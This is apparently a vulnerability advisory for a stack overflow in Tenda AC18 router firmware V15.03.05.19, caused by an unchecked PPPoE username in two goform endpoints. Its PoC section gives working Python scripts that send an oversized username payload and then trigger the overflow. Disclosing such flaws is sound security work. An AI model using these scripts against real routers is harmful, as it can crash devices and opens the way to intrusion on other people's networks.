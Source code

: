 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/fast_setting_pppoe_set` url. The `Var` variable receives the `username` parameter from a POST request and is stored in the configuration item named`wan1.ppoe.userid` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250927_232658.png)

`wan1.ppoe.userid`  configuration item can  be retrieved through the GetValue function in the `/goform/fast_setting_get` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows by the `s` variable.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_093606.png)

## PoC

Set `wan1.ppoe.userid`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_pppoe_set"
payload = "a"*1000

data = {"username":payload}
response = requests.post(url, data=data)
print(response.text)
```

Get `wan1.ppoe.userid`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_get"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)